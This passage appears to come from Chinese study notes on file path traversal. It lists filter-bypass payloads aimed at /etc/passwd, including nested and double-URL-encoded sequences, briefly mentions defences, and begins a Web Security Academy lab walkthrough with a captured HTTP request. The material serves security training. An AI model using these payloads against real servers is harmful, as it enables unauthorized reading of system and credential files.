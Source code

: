 检查正斜杠就用反斜杠。

```plaintext
\/\/etc/passwd
```

有时直接删除黑名单的特殊字符，如 ../../，再去下载过滤后的文件名。可以直接尝试绝对路径的文件。

```plaintext
/etc/passwd
```

也要检查它有没完全剔除，还是只是剔除第一个字符。比如本次剔除的是 .. 或 ../ 字符，那就多给一个看是不是剔除的不对。

```plaintext
..../..../..../etc/passwd
....//....//....//etc/passwd
```

双重编码特殊字符。具体原理见 [Lab: File path traversal, traversal sequences stripped with superfluous URL-decode](#Lab%3A+File+path+traversal%2C+traversal+sequences+stripped+with+superfluous+URL-decode)

```plaintext
%252fetc%252fpasswd
```

## 防御

限定以某文件结尾。

现有有些应用下载文件都不靠文件名作为标识，而是上传文件后返回一个 Token，通过 Token 下载文件，估计在数据库里存了 Token 和文件名映射关系。

## 靶场

### Web Security Academy⚒️

#### Lab: File path traversal, simple case

题目提示：在产品图片存在目录遍历

这里新手容易忽略的是，BurpSuite HTTP History 默认不显示图片，需要主动勾选进行展示。

直接获取没得到文件内容，说明可能拼接了文件路径。

```http
GET /image?filename=/etc/passwd HTTP/2
Host: 0a3500ac03db485180d776e7005e0046.web-security-academy.net
Cookie: session=sN3NMychB0F02a9vgCv04BmOdvELunj9
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.31
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a3500ac03db485180d776e7005e0046.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"
```